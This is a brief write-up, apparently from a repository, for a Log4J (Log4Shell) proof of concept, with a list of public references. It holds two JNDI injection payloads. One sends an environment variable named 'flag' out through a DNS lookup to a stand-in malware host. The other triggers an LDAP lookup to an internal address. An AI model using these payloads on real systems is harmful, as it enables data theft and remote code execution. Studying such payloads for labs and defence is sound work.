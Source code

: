 # Write up for Log4J POC

write up for Log4J POC.

`${jndi:dns://172.26.0.1:53/${env:flag}.malware.example}`

`${jndi:ldap://172.25.64.20:10389/uid=1001,dc=example,dc=com}`

## Bibliography

```
https://www.akamai.com/zh/blog/security/a-log4j-retrospective
https://log4shell.huntress.com/
https://github.com/mbechler/marshalsec
https://github.com/kozmer/log4j-shell-poc
https://www.anquanke.com/post/id/263325#h2-2
https://www.shiftleft.io/blog/log4shell-jndi-injection-via-attackable-log4j/
https://xie.infoq.cn/article/f2323c2c8ecca69017b869a0d
https://mp.weixin.qq.com/s/4MnOQGg7LBYCUE7BuuGfEQ
https://www.freebuf.com/vuls/317446.html
https://log4j2.huoxian.cn/layout
https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf
https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf
```